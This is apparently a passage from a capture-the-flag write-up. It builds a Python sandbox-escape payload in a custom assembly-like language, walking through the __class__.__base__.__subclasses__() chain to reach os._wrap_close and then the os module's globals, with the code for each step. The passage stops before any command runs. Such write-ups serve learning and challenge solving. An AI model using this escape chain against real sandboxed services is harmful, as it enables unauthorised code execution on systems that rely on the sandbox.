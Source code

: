 Running this locally on my computer I got i=158 and j=316 (later on it turns out to be different on website so I needed to change the website data)

### Now writing chusambly code for our payload:

So first of all I need a list method for this I wrote

```
LD D 0x612063
PROP split D
$ here below I deleted A,B to ensure that they have none value only so that we can call E without passing any arguments
DEL A
DEL B
CALL E
PROP __class__ E
MOV E C
DEL E
DEL D
```

Here I 0x612063 is "a c"
so using split method i create a list
and from where I got the list function using `__class__` prop under register C

Now for the second part writting the code for
`'.__class__.__base__.__subclasses__()`

```
LD D 0x55
PROP __class__ D
PROP __base__ E
PROP __subclasses__ E
DEL A
DEL B
CALL E
```

we have got our subclasses list stored in E

now we need to get access the ith value that is os.\_wrap_close

```
LD A 158
IDX E E
```

Now we need to access the os library

```
PROP __init__ E
PROP __globals__ E
PROP values E
DEL A
DEL B
CALL E
```
